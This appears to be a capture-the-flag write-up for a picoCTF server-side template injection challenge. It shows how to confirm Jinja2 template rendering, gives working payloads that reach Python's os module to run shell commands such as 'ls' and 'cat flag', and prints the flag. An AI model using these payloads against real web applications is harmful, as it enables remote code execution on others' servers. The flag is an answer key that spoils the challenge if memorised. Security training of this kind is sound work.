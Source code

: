 ﻿##  CTF Name: SSTI 1 (Easy)

### Description:
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps

### Hint:
Server Side Template Injection

### Analysis:
The challenge hints at **Server-Side Template Injection (SSTI)**. Testing `{{7*7}}` outputs `49`, confirming that the site uses **Jinja2** and is vulnerable to SSTI.

### Solution:
1. **Confirm SSTI:**

    Submit:```{{7*7}}```

    ![f](./documentation/Screenshot%20(709).png)

    The output confirms template rendering.
<br>

2. **Leverage Jinja2 internals:**

    Use a payload to execute commands:
```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```

    ![f](./documentation/Screenshot%20(708).png)

3. **Retrieve the flag:**

    Locate and read the flag using `{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
`.
    
    ![f](./documentation/image.png)

### Flag:
**picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}**
